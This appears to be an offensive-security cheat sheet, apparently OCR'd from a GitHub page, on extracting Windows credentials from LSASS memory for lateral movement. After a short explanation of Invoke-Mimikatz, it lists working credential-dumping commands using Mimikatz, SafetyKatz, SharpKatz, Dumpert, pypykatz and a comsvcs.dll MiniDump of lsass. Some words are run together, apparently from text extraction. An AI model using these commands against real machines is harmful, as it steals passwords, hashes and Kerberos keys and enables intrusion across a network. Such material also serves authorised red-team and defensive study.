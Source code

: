 # Mimikatz
Mimikatz can be used to dump credentials, tickets, and many more interesting attacks.Invoke-Mimikatz, is a PowerShell port of Mimikatz. Using the code from ReflectivePEInjection, mimikatz is loaded reflectively into the memory. All the functions of mimikatz could be used from this script.The script needs administrative privileges for dumping credentials from local machine. Many attacks need specific privileges which are covered while discussing that attack.

# Lateral Movement - Extracting credentials from LSASS

## Dump credentials on a local machine
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
## Using SafetyKatz(Minidumpof lsassand PELoaderto run Mimikatz)
```
SafetyKatz.exe "sekurlsa::ekeys"
```
## Dump credentials Using SharpKatz(C# port of some of Mimikatz functionality)
```
SharpKatz.exe --Command ekeys
```
## Dump credentials using Dumpert(Direct System Calls and API unhooking)
```
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```
## Using pypykatz(Mimikatz functionality in Python)
```
pypykatz.exe live lsa
```
## Using comsvcs.dll
```
tasklist /FI "IMAGENAME eqlsass.exe" rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsassprocess ID> C:\Users\Public\lsass.dmp full
```
# Over Pass The Hash Lateral Movement is in Lateral Movement section.